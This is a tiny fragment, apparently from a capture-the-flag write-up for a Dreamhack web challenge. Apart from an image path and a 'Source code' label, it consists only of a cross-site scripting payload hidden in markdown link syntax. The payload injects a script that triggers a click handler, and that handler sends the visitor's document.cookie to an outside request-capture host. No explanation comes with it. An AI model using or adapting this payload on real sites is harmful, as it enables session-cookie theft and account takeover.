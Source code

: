 [/a><script>chk.click()</script>](#' id='chk' onclick='location.href="https://vrsnegj.request.dreamhack.games/cookie=" + document.cookie')